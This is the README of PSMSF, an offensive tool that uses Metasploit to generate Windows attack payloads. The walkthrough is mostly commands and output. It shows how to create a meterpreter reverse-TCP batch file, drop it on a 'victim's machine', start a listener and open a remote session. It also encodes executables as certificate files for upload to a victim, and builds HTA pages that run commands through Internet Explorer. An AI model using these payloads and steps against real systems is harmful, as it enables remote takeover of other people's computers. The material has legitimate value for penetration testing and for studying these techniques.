 ## PSMSF

[**PSMSF**](https://github.com/all3g/psmsf/) can help us generate payload or files used in cmd console/browser/.. with [**Metasploit-Framework**](https://github.com/rapid7/metasploit-framework/). If you are similar to windows cmd console, you can use the results in different areas.

```
psmsf [master●] python psmsf.py -h     
Usage: python psmsf.py [options]

Options:
  -h, --help            show this help message and exit
  --attacktype=ATTACKTYPE
                        Attack Types are supported. (ps, hta, crt)

  Powershell Attack:
    Powershell features

    --payload=PAYLOAD   payload of metasploit framework
    --lhost=LHOST       lhost for payload of metasploit framework
    --lport=LPORT       lport for payload of metasploit framework

  CERT Attack:
    Cert features

    --filename=FILENAME
                        file to be encoded to a certification

  HTA Attack:
    HTA features

    --command=COMMAND   command of attack mode
```

### **Requirement**

If you use [**Kali Linux**](https://www.kali.org), Install [**Metasploit-Framework**](https://www.metasploit.com/) with the command:

```
$ sudo apt-get install metasploit-framework
```


### **Usage**

[**psmsf**](https://github.com/all3g/psmsf) has three attack types,

- [x] powershell attack
- [x] cert attack
- [x] hta attack

#### Powershell Attack Mode

```
psmsf [master●] python psmsf.py --attacktype ps
[+]
     ######
      #     #  ####  #    #  ####  ######
       #     # #      ##  ## #      #
        ######   ####  # ## #  ####  #####
         #            # #    #      # #
          #       #    # #    # #    # #
           #        ####  #    #  ####  #

[+] Everything is now generated in two files, ex:
    powershell_hacking.bat - shellcode can be executed in cmd console.
                           - Usage: cmd.exe /c powershell_hacking.bat
    powershell_msf.rc      - msfconsole resource script.
                           - Usage: msfconsole -r powershell_msf.rc

[+] python psmsf.py --attacktype ps --payload windows/shell/reverse_tcp --lhost 192.168.1.100 --lport 8443
[+] python psmsf.py --attacktype ps --payload windows/meterpreter/reverse_tcp --lhost 192.168.1.100 --lport 8443
[+] python psmsf.py --attacktype ps --payload windows/meterpreter/reverse_http --lhost 192.168.1.100 --lport 8443
```

Everything is now generated in two files,

```
psmsf [master●] python psmsf.py --attacktype ps --payload windows/meterpreter/reverse_tcp --lhost 192.168.1.101 --lport 8443
[+] create msfconsole resource script
[+] create powershell shellcode command
```

**Victim**

Please put the file **powershell_hacking.bat** to the victim's machine, and execute the shellcode with command.

```
cmd.exe /c powershell_hacking.bat
```

**Attacker**

Starts a **metasploit-framework** listeners,

```
psmsf [master●] msfconsole -r powershell_msf.rc

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v4.11.11-dev-95484c8                 ]
+ -- --=[ 1521 exploits - 884 auxiliary - 259 post        ]
+ -- --=[ 437 payloads - 38 encoders - 8 nops             ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing powershell_msf.rc for ERB directives.
resource (powershell_msf.rc)> use exploit/multi/handler
resource (powershell_msf.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (powershell_msf.rc)> set LHOST 192.168.1.101
LHOST => 192.168.1.101
resource (powershell_msf.rc)> set LPORT 8443
LPORT => 8443
resource (powershell_msf.rc)> set ExitOnSession false
ExitOnSession => false
resource (powershell_msf.rc)> set EnableStageEncoding true
EnableStageEncoding => true
resource (powershell_msf.rc)> exploit -j
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.1.101:8443
[*] Starting the payload handler...
msf exploit(handler) >
```

If you run **powershell_hacking.bat** on victim's machine, a new session will be created:

```
msf exploit(handler) > jobs

Jobs
====

  Id  Name                    Payload                          LPORT
  --  ----                    -------                          -----
  0   Exploit: multi/handler  windows/meterpreter/reverse_tcp  8443

msf exploit(handler) >
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (958029 bytes) to 192.168.1.101
[*] Meterpreter session 1 opened (192.168.1.101:8443 -> 192.168.1.101:64656) at 2016-02-20 17:46:01 +0800

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : SEC
OS              : Windows 7 (Build 7600).
```

#### Cert Attack Mode

You can translate a binary file to a certificate file which is a text file.

```
psmsf [master●] python psmsf.py --attacktype crt --filename demo.exe
psmsf [master●] ll cert_attack
total 48
-rw-r--r--  1 Open-Security  staff    44B Feb 20 21:31 cert_decode.bat
-rw-r--r--  1 Open-Security  staff    17K Feb 20 21:31 cert_encode.crt
```

Upload **cert_encode.crt** to victim machine, and restore it with windows batch script - **cert_decode.bat**.


#### HTA Attack Mode

Create windows hta web page, and you can access **http://demo.com/index.html** with Internet Explorer Browser.

```
psmsf [master●] python psmsf.py --attacktype hta --command whoami               
[+] create hta index file
[+] create hta module file
psmsf [master●] ll windows_hta_attack
total 16
-rw-r--r--  1 Open-Security  staff   151B Feb 20 21:37 index.html
-rw-r--r--  1 Open-Security  staff   122B Feb 20 21:37 module.hta
```

## References

https://github.com/trustedsec/unicorn


License: BSD License
